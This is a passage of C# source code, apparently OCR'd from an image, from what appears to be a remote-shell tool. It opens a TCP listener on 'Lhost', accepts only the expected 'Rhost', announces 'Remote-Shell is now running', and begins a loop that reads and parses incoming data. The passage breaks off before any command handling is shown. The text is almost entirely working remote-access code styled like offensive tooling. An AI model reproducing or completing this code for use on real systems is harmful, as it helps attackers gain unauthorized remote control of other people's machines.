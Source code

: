 IPAddress address = IPAddress.Parse(Lhost);
			IPEndPoint localEP = new IPEndPoint(address, Port);
			TcpListener tcpListener = new TcpListener(localEP);
			int num = 0;
			TcpClient tcpClient = null;
			tcpListener.Start();
			WriteColor(ConsoleColor.White, "\n\n [");
			WriteColor(ConsoleColor.Blue, "*");
			WriteColor(ConsoleColor.White, "] Waiting for a Connection from ");
			WriteColor(ConsoleColor.Blue, Rhost + "\n");
			tcpClient = tcpListener.AcceptTcpClient();
			while (((IPEndPoint)tcpClient.Client.RemoteEndPoint).Address.ToString() != Rhost)
			{
				string rip = ((IPEndPoint)tcpClient.Client.RemoteEndPoint).Address.ToString();
				int rp = ((IPEndPoint)tcpClient.Client.RemoteEndPoint).Port;
				tcpListener.Stop();
				tcpClient.GetStream().Close();
				tcpClient.Close();
				tcpListener.Start();
				tcpClient = tcpListener.AcceptTcpClient();
			}
			WriteColor(ConsoleColor.White, " [");
			WriteColor(ConsoleColor.Blue, "*");
			WriteColor(ConsoleColor.White, "]");
			WriteColor(ConsoleColor.White, " Connection from ");
			WriteColor(ConsoleColor.Blue, Rhost);
			WriteColor(ConsoleColor.White, " got Accepted...\n\n\n");

			WriteColor(ConsoleColor.White, " [");
			WriteColor(ConsoleColor.Blue, "*");
			WriteColor(ConsoleColor.White, "] ");
			WriteColor(ConsoleColor.White, "Remote-Shell is now running on Port ");
			WriteColor(ConsoleColor.Cyan, Port + "\n");
			Console.ForegroundColor = ConsoleColor.White;
			num = 0;
			int num321 = 0;
			bool isError = false;
			while (true)
			{
				try
				{
					num++;
					NetworkStream stream = tcpClient.GetStream();
					byte[] array = new byte[104857600];
					int num2 = stream.Read(array, 0, Math.Min(array.Length, tcpClient.ReceiveBufferSize));
					string RecivedData = Encoding.ASCII.GetString(array);
					if (array.Length > 65500)
					{
						array = new byte[104857600];
					}
					if (isError)
					{
						array = new byte[104857600];
						RecivedData = "ErrorTryAgain$$$$$$$$$$$$$";
						if (num321 + 2 == num)
						{
							isError = false;
						}
					}
					RecivedData = RecivedData.Substring(0, RecivedData.IndexOf("$"));
					string s = string.Empty;
